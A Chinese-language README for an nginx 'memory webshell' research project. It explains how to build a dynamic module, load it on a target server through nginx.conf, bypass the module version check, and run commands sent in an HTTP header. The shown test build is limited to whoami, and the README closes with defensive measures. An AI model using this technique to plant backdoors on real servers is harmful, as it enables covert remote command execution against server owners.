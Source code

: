 # 全链路内存马系列之 nginx 内存马

![](img/webshellattckchain.jpg)
其他内存马
- [ebpf 内核马](https://github.com/veo/ebpf_shell)
- [websocket 内存马](https://github.com/veo/wsMemShell)
- ### 注意
本项目不含有完整的利用工具，仅提供无害化测试程序、防御加固方案，以及研究思路讨论
- ### 测试程序使用方式
测试环境：Nginx 1.18.0

下载测试程序 [releases](https://github.com/veo/nginx_shell/releases) 

将下载的so放至目标服务器上，修改 nginx.conf 配置文件在第一行添加以下内容，path为路径
```
load_module path/ngx_http_cre_module.so;
```
然后重载nginx
```
nignx -s reload
```

POST HTTP header `vtoken: whoami` （测试程序只允许使用 `whoami` 命令）
![](img/run.jpg)

- ### 编译方式
```
wget https://nginx.org/download/nginx-1.18.0.tar.gz
tar -zxvf nginx-1.18.0.tar.gz
cd nginx-1.18.0
git clone https://github.com/veo/nginx_shell.git
./configure --with-compat --add-dynamic-module=./nginx_shell/
make modules
```
编译后的so文件位于 nginx-1.18.0/objs/ngx_http_cre_module.so


- ### 一、技术特点
1. 无需临时编译（传统的 nignx so backdoor 需要临时编译）
2. 兼容 1.9.11 以后的所有版本
3. 无需额外组件支持


- ### 二、技术缺点
1. 有so文件落地
2. 需要 nignx -s reload 权限

- ### 三、技术原理
nginx module 支持动态加载so，通过 __attribute ((constructor))的方式绕过nginx module version check，可以编译出适应所有nginx版本的module。
使用header_filter可以取得命令执行的参数，通过body_filter可以返回命令执行后的结果


- ### 四、研究中遇到的问题
1. 绕过nginx对于module的版本检测

    通过 __attribute ((constructor))的方式绕过


2. 编写的module要兼容大部分版本

    使用较早版本的函数，不使用高版本新增函数

3. 目标编译参数 --without-http-cache 不一致会导致 ngx_http_request_s 结构体变化，程序无法正常使用
   
   编译了两个版本支持不同的编译环境

- ### 五、防御加固方案
1. 监测Nginx Module的加载，Nginx进程的行为
2. 查杀落地文件
3. 收敛 nignx -s reload 权限
